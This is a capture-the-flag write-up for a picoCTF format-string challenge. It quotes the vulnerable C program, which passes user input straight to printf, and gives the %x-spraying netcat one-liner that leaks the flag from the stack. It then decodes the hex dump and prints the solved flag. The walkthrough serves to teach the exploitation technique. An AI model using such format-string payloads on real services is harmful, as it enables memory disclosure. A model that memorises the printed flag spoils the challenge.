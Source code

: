 **Description**

Author: Neel Bhavsar

Story telling class 1/2 I'm just copying and pasting with this program. What can go wrong? You can view source here. And connect with it using: nc saturn.picoctf.net 63442

Hints
1) Format Strings

**Research**

A [format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string) vulnerability abuses format strings such as %s and %p and improper data sanitation to remove malicious strings from executing some task. In the case of a format string vulnerability flawed or nonexistent data sanitation is abused to make the program print a format string as if it were trying to use that format string instead of printing the characters associated with that format string.

**Exploitation**

Lets look at the program source:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

The vuln function loads the flag into the flag variable. It then loads 127 characters from the terminal into the story variable. Finally, it prints the story varible with [printf](https://en.wikipedia.org/wiki/Printf_format_string#Vulnerabilities) which is succeptible to format string vulnerabilities.

You can leak memory in this program with %x, so lets pass a bunch of these into this program on the server

```python2 -c 'print("%x"*100)' | nc saturn.picoctf.net 63442```

It dumps:

```
Tell me a story and then I'll tell you one >> Here's a story - 
ff8476e0ff8477008049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578252578256f6369707b4654436b34334c5f676e3167346c466666305f3474535f625f6b63653034387d393738fbad2000f8ed87000f7f10990804c00080494100804c000ff8477c880494182ff847874ff8478800ff8477e000f7d06ee5
```

This looks intimidiatin, but we can break this down.

```picoCTF{``` = ```70 69 63 6f 43 54 46 7b```

The endianess of this program is little, so we can invert this to look like ```6f636970 7b465443```

This is in the file! Lets cut off the beginning stuff.

```
6f636970
7b465443
6b34334c
5f676e31
67346c46
6666305f
3474535f
625f6b63
65303438
7d393738
fbad2000
f8ed8700
0f7f1099
0804c000
80494100
804c000f
f8477c88
0494182f
f847874f
f8478800
ff8477e0
00f7d06e
```

Now we can use a tool like [Cyber Chef](https://gchq.github.io/CyberChef) to do this automatically

Swap the endianess and convert from hex to ascii
This gives us the flag!
It is: ```picoCTF{L34k1ng_Fl4g_0ff_St4ck_b840e879}```
